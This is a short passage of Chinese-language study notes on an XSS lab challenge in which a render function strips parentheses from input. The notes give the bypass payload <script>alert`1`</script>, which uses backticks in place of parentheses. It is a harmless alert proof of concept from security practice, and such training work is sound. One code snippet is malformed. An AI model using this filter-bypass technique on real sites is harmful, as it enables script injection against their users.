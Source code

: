 ![image-20220115231156578](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/02%20XSS%E9%9D%B6%E5%9C%BA.assets/image-20220115231156578.png)

```
function render ("haha") {
const stripBracketsRe = /[()]/g  input = "haha".replace(stripBracketsRe, '')
return input
}
```

屏蔽括号，考虑使用

```
`反引号
```

```
`<script>alert`1`</script>
```



```
[html]
<script>alert`1`</script>

[server code]
function render (input) {
  const stripBracketsRe = /[()]/g
  input = input.replace(stripBracketsRe, '')
  return input
}
```
